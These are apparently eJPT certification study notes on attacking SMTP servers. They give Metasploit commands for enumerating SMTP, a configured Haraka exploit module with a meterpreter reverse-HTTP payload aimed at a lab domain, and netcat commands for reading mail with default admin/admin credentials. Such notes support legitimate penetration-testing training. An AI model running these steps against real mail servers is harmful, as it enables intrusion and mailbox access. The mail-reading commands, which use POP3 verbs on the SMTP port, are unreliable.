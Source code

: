 ## SMTP - p25,465,587

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### METASPLOIT
```
search type:auxiliary name:smtp_version
search smtp_enum
```
### Linux - Exploiting SMTP Server
Hakara, developed in Node.js, is vulnerable in all all version until V2.8.9
```
exploit/linux/smtp/haraka
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
```
### Reading EMAIL
```
nc 10.10.10.10 25
USER admin
PASS admin
LIST - list all emails
RETR 1 - retrieve first email
DELE 1 - delete first email
```
